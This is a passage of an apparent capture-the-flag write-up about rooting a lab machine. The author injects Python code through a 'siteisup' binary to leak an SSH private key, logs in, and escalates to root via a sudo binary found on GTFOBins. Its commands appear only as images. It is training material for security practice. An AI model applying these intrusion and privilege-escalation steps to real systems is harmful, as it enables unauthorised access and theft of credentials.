[![](https://blogger.googleusercontent.com/img/a/AVvXsEhlIeg2DkMaVjhNmEgJdjOoGh7X1RNnHadIU_zzqomYjgLdzQSux2kSclt0tthGcsZPM2I7b-erh6fy-BUuwdYLgjfc378axE09Fwum4dfIExgCAxb1pC8O9fVswJRSxLN6u6Z-Lfudh9rB3M8YHNau9dVJRWRYFSFcTjm2_uf636w0XEQTFFWC7EwXMA=w552-h640)](https://blogger.googleusercontent.com/img/a/AVvXsEhlIeg2DkMaVjhNmEgJdjOoGh7X1RNnHadIU_zzqomYjgLdzQSux2kSclt0tthGcsZPM2I7b-erh6fy-BUuwdYLgjfc378axE09Fwum4dfIExgCAxb1pC8O9fVswJRSxLN6u6Z-Lfudh9rB3M8YHNau9dVJRWRYFSFcTjm2_uf636w0XEQTFFWC7EwXMA)

  

### Type file siteisup:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgZuAL7ItlKkqR6se9OWPYMVKWeL8mhhata-VeqxrQ0MZCvG92nUfFtzi2J7uxvwM602EMciXv7us8iMHltfIpZ3D7IR9S9EKh-KhZk5DAoE1qCp07HP974q5cnv84CmGqR8b_kTZTApqHYkttMSRZPEWnhV9z-WYc4o-WPi2csBrSUjzFq6FN3pjv34Q=w640-h66)](https://blogger.googleusercontent.com/img/a/AVvXsEgZuAL7ItlKkqR6se9OWPYMVKWeL8mhhata-VeqxrQ0MZCvG92nUfFtzi2J7uxvwM602EMciXv7us8iMHltfIpZ3D7IR9S9EKh-KhZk5DAoE1qCp07HP974q5cnv84CmGqR8b_kTZTApqHYkttMSRZPEWnhV9z-WYc4o-WPi2csBrSUjzFq6FN3pjv34Q)

  

### Content file siteisup\_test.py:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEiK2H5DvKw5yW2Imzw4IQdT0fETMUxFw87yNQwO_ASmEVA7-7538byQ8gdhLB4337fJ6-daOflympogXAVVp-w7CkXFDrEg1gyAOhpZ5OP7nnki6W7_B3yN70QvjwSNp2HPYqNEoRIj4oIDc4hm0jboAAzFSpBBX8gVAXUugrW4SLHKGpUEkauG5bXCuw)](https://blogger.googleusercontent.com/img/a/AVvXsEiK2H5DvKw5yW2Imzw4IQdT0fETMUxFw87yNQwO_ASmEVA7-7538byQ8gdhLB4337fJ6-daOflympogXAVVp-w7CkXFDrEg1gyAOhpZ5OP7nnki6W7_B3yN70QvjwSNp2HPYqNEoRIj4oIDc4hm0jboAAzFSpBBX8gVAXUugrW4SLHKGpUEkauG5bXCuw)

  
We check with strings the binary "_siteisup_", we see that it calls with **python** to the previous script, so we could try to gain access with this user through this binary or py script.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgmE2rvln3mBG1gqI2incUrhoe0vsPc1kTjOj6Bc01jRxmGeUdxF3hy8iAOU4fh5kdGoMoaoWeKSx2gIw6yqQJlzbifUe-9x9pA1APKXNAWHfHI9AhXadMFArCT41bCWjUxKVxCrNltsHdU8AD25-b8PJpOtf53DqPQaJIg3UQ6tPdITuuv9ILiv5N9DQ=w640-h569)](https://blogger.googleusercontent.com/img/a/AVvXsEgmE2rvln3mBG1gqI2incUrhoe0vsPc1kTjOj6Bc01jRxmGeUdxF3hy8iAOU4fh5kdGoMoaoWeKSx2gIw6yqQJlzbifUe-9x9pA1APKXNAWHfHI9AhXadMFArCT41bCWjUxKVxCrNltsHdU8AD25-b8PJpOtf53DqPQaJIg3UQ6tPdITuuv9ILiv5N9DQ)

  
So after several tests of injecting **Python** code, I tried loading a library and managed to display the _id\_rsa_ on error:

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhbA23vGHsMRu_I9Njt9yZ3KvHHy6pvjb1l34Z5PCH2Gs3mv1J4O85KPs0AR8n8h9_1b4M4o7dyZUHKC-QYh0rF2-I2yRcuAKlp5tvmXrSFx2gAUZ-UCkEndiRDcj_rSLwyOkhuB7qFSCo4n8AREH2A18abPFplLDdHBmhFcd7s3K7IGgeUVMsp8-xWNw=w517-h640)](https://blogger.googleusercontent.com/img/a/AVvXsEhbA23vGHsMRu_I9Njt9yZ3KvHHy6pvjb1l34Z5PCH2Gs3mv1J4O85KPs0AR8n8h9_1b4M4o7dyZUHKC-QYh0rF2-I2yRcuAKlp5tvmXrSFx2gAUZ-UCkEndiRDcj_rSLwyOkhuB7qFSCo4n8AREH2A18abPFplLDdHBmhFcd7s3K7IGgeUVMsp8-xWNw)

  
So we access by **SSH** with the private key, read the flag of _user.txt_ and see that we can run a binary with **SUDO:**

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEiW2LP2xFDDy9ONtU1i88nOzNOV-hOyB7IyKYZ7N0UgIQ65ZBRLZ1dvDP2Dh5Ov8YJuCgIh6L8Uo0n2fP8JMXQMdOosMPV6_UARj0665qBpTw91dhxZULG4wS_Tpx5RA_T8YEiJKuuZ05VTj_tDwVe_CwwLkkEXwHfH_jfp9Mg42Ei0yufQ31bQIiN26w=w640-h610)](https://blogger.googleusercontent.com/img/a/AVvXsEiW2LP2xFDDy9ONtU1i88nOzNOV-hOyB7IyKYZ7N0UgIQ65ZBRLZ1dvDP2Dh5Ov8YJuCgIh6L8Uo0n2fP8JMXQMdOosMPV6_UARj0665qBpTw91dhxZULG4wS_Tpx5RA_T8YEiJKuuZ05VTj_tDwVe_CwwLkkEXwHfH_jfp9Mg42Ei0yufQ31bQIiN26w)

  
We searched [https://gtfobins.github.io](https://gtfobins.github.io), we found a way to escalate privileges to root in a very simple way:

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjZCbOPjGiw5UvIEi_gPxiLXbGXXa995HaL11TOdLbnSODvfI9LSArugvmmTEmY3lfaO-Lp0T57vI5DCaqmkKkzz3X-F52Jv0Fs6DihRPkYB2L0UjlCJXJ_aicSCr3IrEpQmaTU5sbzzVNIqISWYqKwC2mDCWyVjyDaUm9Lv-H3wIFLqKN-ji9mziXqJQ=w640-h152)](https://blogger.googleusercontent.com/img/a/AVvXsEjZCbOPjGiw5UvIEi_gPxiLXbGXXa995HaL11TOdLbnSODvfI9LSArugvmmTEmY3lfaO-Lp0T57vI5DCaqmkKkzz3X-F52Jv0Fs6DihRPkYB2L0UjlCJXJ_aicSCr3IrEpQmaTU5sbzzVNIqISWYqKwC2mDCWyVjyDaUm9Lv-H3wIFLqKN-ji9mziXqJQ)

  
  
We execute the commands and read the root flag:

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEiEYjdg5JWb2y4XGq5rLEZJQtLLk1nrksjwSokx48QGi9jgljM3KQFGGyvwQDUMp7TCL9SGYhZkY2a3TL_ZGCtNyfCq_5KfXopLoq5MoajCSFFk339coQmnzNDnGutZCjI03J7kUAAFtGWVSjqg3MXOqI0pLFEEOwYgFuT5xCm-2yMqxREt5xdwtPs76w=w640-h182)](https://blogger.googleusercontent.com/img/a/AVvXsEiEYjdg5JWb2y4XGq5rLEZJQtLLk1nrksjwSokx48QGi9jgljM3KQFGGyvwQDUMp7TCL9SGYhZkY2a3TL_ZGCtNyfCq_5KfXopLoq5MoajCSFFk339coQmnzNDnGutZCjI03J7kUAAFtGWVSjqg3MXOqI0pLFEEOwYgFuT5xCm-2yMqxREt5xdwtPs76w)